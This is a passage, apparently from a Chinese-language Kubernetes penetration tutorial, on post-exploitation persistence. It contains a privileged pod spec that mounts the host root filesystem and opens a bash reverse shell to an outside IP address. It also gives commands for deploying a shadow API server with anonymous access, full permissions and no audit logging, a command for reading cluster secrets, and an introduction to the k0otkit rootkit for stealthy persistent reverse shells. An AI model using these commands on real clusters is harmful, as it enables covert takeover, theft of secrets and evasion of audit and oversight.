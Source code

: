 ```php
        args: ["-c", "bash -i >& /dev/tcp/192.168.238.130/4242 0>&1"]
        securityContext:
          privileged: true #特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
#创建
kubectl create -f dep.yaml
```

#### Shadow API Server

如果部署了一个shadow api server，那么该api server具有和集群中现在的api server一致的功能。同时开启了全部k8s权限，接受匿名请求且不保存审计日志，这将方便攻击者无痕迹的管理整个集群以及进行后续渗透行动。

Shadow API Server的配置与利用：

```php
配置文件路径：
/etc/systemd/system/kube-apiserver-test.service
#一键部署Shadow apiserver
./cdk run k8s-shadow-apiserver default
#一键部署将在配置文件中添加了如下选项：
--allow-privileged
--insecure-port=9443
--insecure-bind-address=0.0.0.0
--secure-port=9444
--anonymous-auth=true
--authorization-mode=AlwaysAllow
#kcurl访问与利用
./cdk kcurl anonymous get https://192.168.1.44:9443/api/v1/secrets
```

#### Rootkit

这里介绍一个k8s的rootkit，k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透。使用 k0otkit，您可以以快速、隐蔽和连续的方式（反向 shell）操作目标 Kubernetes 集群中的所有节点。

K0otkit使用到的技术：

- DaemonSet和Secret资源（快速持续反弹、资源分离）
- kube-proxy镜像（就地取材）
- 动态容器注入（高隐蔽性）
- Meterpreter（流量加密）
- 无文件攻击（高隐蔽性）
    
    生成k0otkit
    =========
    
    ./pre\_exp.sh
    